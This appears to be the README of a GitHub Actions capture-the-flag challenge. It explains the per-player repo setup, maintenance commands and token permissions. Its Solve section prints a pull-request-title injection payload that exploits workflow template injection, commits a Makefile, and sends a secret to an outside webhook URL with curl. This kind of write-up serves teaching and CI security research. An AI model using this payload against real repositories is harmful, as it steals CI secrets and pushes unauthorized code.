

## About



Author: `mbund`

`misc` `medium`

CTF challenge based on GitHub Actions. This repository has an OAuth application registered with GitHub, and will automatically create a new private repository for each user that logs in under the [smederij](https://github.com/smederij) organization. The user cannot push code to the repository, it is a pull request/issue challenge. Players get their own repos because they need to be able to create issues and pull requests, but we don't want players to view each other's repos.

> Laat het smeden beginnen!

## Maintaining

Clean up/delete all automatically created smith repos

```
gh repo list smederij --json name -q '.[].name' | grep '^smith-' | awk '{print "smederij/"$0}' | xargs -L1 gh repo delete --yes
```

The minimum required permissions for the GitHub access token (on the Organization Smederij) are:

- Repository
  - Administration (read and write)
  - Contents (read and write)
  - Metadata (read-only, mandatory anyways)
  - Secrets (read and write)
  - Workflows (read and write)
- Organization
  - Members (read and write)

## Name

After the Gitea project split, the community fork was named Forgejo, which is Esparanto for forge. Smederij is Dutch for forge.

## Solve

Create a pull request (editing anything), and set its title to this:

```
";printf 'all:\n	curl https://webhook.site/f3b6bb13-9c90-45b6-8c8a-2f4abdf0a622?flag=`echo ${FLAG} | basenc --base64url`' > Makefile;git config user.name 'github-actions[bot]';git config user.email '41898282+github-actions[bot]@users.noreply.github.com';git add -A;git commit -m 'malicious';git push;gh workflow run -R smederij/template build;#
```

Explanation: There is a template injection vulnerability in `.github/workflows/label.yaml` on the title of the pull request which allows us to run shell code. We can use that to steal the `$GITHUB_TOKEN` of the action and make a commit to the repo. In `.github/workflows/build.yaml`, the step which runs `make` is run with the `FLAG` secret, so in our commit we can edit the `Makefile` to send the flag to us. We can then run the build workflow to trigger the malicious `Makefile`.
